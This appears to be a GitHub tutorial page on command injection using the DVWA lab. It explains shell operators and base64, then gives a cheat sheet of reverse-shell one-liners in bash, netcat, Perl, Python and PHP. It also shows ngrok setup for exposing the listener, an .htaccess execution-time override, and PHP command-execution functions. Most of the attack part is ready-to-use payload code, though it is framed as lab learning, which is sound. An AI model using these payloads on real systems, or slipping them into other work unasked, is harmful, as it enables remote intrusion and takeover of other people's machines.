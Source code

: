 ## 1. Command Injection Attack

![](https://i.ytimg.com/vi/UBWMLFbjPBc/maxresdefault.jpg)
>We will use DVWA Labs To Learn Command Injection Attacks

# Linux Command syntax
| Character | Action |
|--|--|
| ; | And |
| && | And |
| \|\| | Or |
| \| | Share Output To Second Command |
| * | It can be use as 'all' or  auto complete |
```
ls -lah /tmp
```
>ls = command to be executed, -lah = Options, /tmp = Argument

# Command Substitution

```
echo $(pwd)
echo `whoami`
```

# Base64 Encoding/Decoding

```
echo "yellphonenaing" | base64
Output => eWVsbHBob25lbmFpbmcK

echo "eWVsbHBob25lbmFpbmcK" | base64 -d
Output => yellphonenaing
```

# Reverse Shell Connection

**Listening**
```
nc -lvp 8080
```

**BASH**
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

**Netcat**
```
nc -e /bin/sh 127.0.0.1 8080
```

**Perl**
```
perl -e 'use Socket;$i="127.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("127.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# Port Forwarding
**Install And Setup Ngrok**
```
cd /tmp
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip && sudo chmod 755 /usr/bin/ngrok
sudo cp ngrok /usr/bin # (For Linux)
cp ngrok $PREFIX/bin && chmod 755 /usr/bin/ngrok (For Termux)
ngrok authtoken  tokenishere #(Token can be got at https://ngrok.com/)
```

**Start TCP Port Forwarding**
```
ngrok tcp 1234 #1234 is your custom port number
```

# Bypassing

**Max Execution Time**
>It can be bypassed with htaccess
```
<IfModule mod_php5.c>
php_value max_execution_time 300
</IfModule>
```

**PHP Functions**
```
<?php
exec('whoami');
system('whoami');
passthru('whoami');
shell_exec('whoami');
echo `whoami`;
$handle = popen("/bin/whoami 2>&1", "r");
$output="";
if($handle) {
  while($tmp = fgets($handle))
      $output .= $tmp;
  $output .= "\n\nResult = " . pclose($handle);
}
else $output = "popen failed";
echo $output;

?>
```
